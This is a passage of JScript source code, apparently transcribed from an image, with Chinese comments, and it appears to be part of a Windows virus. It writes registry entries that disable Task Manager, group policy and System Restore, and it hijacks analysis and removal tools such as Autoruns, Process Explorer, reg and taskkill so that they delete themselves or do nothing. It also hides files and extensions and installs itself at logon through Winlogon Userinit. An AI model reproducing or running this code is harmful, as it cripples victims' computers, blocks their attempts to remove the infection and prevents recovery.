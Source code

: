         // 禁用任务管理器
        shell.RegWrite('HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System\\DisableTaskMgr', '1', 'REG_DWORD');
    } catch (e) {}
    try {
        // 禁用组策略管理器
        shell.RegWrite('HKCU\\Software\\Policies\\Microsoft\\MMC\\RestrictToPermittedSnapins', '1', 'REG_DWORD');
    } catch (e) {}
    try {
        // 映像劫持attrib.exe，不回显信息
        shell.RegWrite('HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\attrib.exe\\Debugger', 'cmd.exe /c rem');
    } catch (e) {}
    try {
        // 映像劫持autoruns.exe，启动即删除
        shell.RegWrite('HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\autoruns.exe\\Debugger', 'cmd.exe /c del /q /f');
    } catch (e) {}
    try {
        // 映像劫持procexp.exe，启动即删除
        shell.RegWrite('HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\procexp.exe\\Debugger', 'cmd.exe /c del /q /f');
    } catch (e) {}
    try {
        // 映像劫持reg.exe，不回显信息
        shell.RegWrite('HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\reg.exe\\Debugger', 'cmd.exe /c rem');
    } catch (e) {}
    try {
        // 映像劫持RegAlyzer.exe，启动即删除
        shell.RegWrite('HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\RegAlyzer.exe\\Debugger', 'cmd.exe /c del /q /f');
    } catch (e) {}
    try {
        // 映像劫持taskkill.exe,不回显信息
        shell.RegWrite('HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\taskkill.exe\\Debugger', 'cmd.exe /c rem');
    } catch (e) {}
    try {
        // 创建自启动项
        shell.RegWrite('HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\Userinit', SystemPath + '\\userinit.exe,wscript.exe //e:jscript ' + SysPath + ' /e');
    } catch (e) {}
    try {
        // 隐藏文件后缀
        shell.RegWrite('HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Advanced\\Folder\\HideFileExt\\UncheckedValue', '1', 'REG_DWORD');
    } catch (e) {}
    try {
        // 强制隐藏文件
        shell.RegWrite('HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Advanced\\Folder\\SuperHidden\\UncheckedValue', '0', 'REG_DWORD');
    } catch (e) {}
    try {
        // 禁用系统还原
        shell.RegWrite('HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows NT\\SystemRestore\\DisableConfig', '1', 'REG_DWORD');
    } catch (e) {}
    try {
        // 禁用系统还原
        shell.RegWrite('HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows NT\\SystemRestore\\DisableSR', '1', 'REG_DWORD');
    } catch (e) {}